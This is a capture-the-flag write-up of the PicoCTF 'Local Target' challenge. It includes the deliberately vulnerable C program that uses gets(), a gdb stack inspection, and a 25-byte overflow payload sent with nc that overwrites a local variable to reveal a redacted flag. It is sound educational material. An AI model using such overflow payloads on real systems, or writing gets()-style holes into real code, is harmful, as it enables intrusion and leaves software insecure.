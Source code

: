 # PicoCTF - Local Target

## Challenge Overview
**Title:** Local Target  
**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Files Provided:** local-target.c, local-target

## Description
Smash the stack Can you overflow the buffer and modify the other local variable? The program is available here. You can view source here. And connect with it using: nc saturn.picoctf.net 57353

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

## Analysis
From the description, we want to overflow a stack buffer and alter a local variable's value.

The buffer we will overflow is `input`
```c
char input[16];
...
printf("Enter a string: ");
fflush(stdout);
gets(input);
```
`gets()` doesn't guard buffers from overflow, leaving the program vulnerable to stack smashing

We see `num` defined below `input` and initialized with the value `64`.  
A few lines below it, we see it being checked with the value `65`.  
So we want to overflow it and change it to 65.

To construct the payload I will use `gdb` to observe the stack
```
(gdb) b *0x40127a
Breakpoint 1 at 0x40127a
(gdb) r
Starting program: /home/giorgos/Downloads/local-target 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter a string: AAAAAAA

Breakpoint 1, 0x000000000040127a in main ()
(gdb) x/32x $rbp - 32
0x7fffffffdb90:	0x41414141	0x00414141	0xf7fe5af0	0x00007fff
0x7fffffffdba0:	0xffffdc90	0x00007fff	0x00000040
```
Our input starts at `0x7fffffffdb90`.  
`num` is stored at `0x7fffffffdba8`.  
So we need 24 'A's to reach `num`.  
`num` currently is `64` or `0x40` so we want to make it `0x41` which happens to be `A`.  
So our final payload is `25*A`.

## Solution

- Find address input starts in stack
- Find address `num` is stored
- Overflow until `num` and change with its value incremented by one

### Execution Example:
```
$ nc saturn.picoctf.net 57353
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{____REDACTED____}
```

## Tools Used
- `gdb`
